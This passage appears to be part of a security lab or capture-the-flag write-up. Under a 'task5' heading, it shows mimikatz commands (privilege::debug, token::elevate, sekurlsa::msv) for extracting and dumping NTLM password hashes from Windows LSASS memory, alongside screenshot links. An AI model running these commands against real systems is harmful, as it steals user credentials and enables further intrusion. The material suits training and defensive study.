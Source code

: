         ![task5-mimikatz](./images/task5-mimikatz.png)

    * Extracting NTLM hashes from LSASS memory
        
        ```
        privilege::debug
        token::elevate
        ```

        ![task5-debug](./images/task5-debug.png)

    * Dump NTLM Hashes
    
        ```
        sekurlsa::msv
        ```

        ![task5-hash](./images/task5-hash.png)
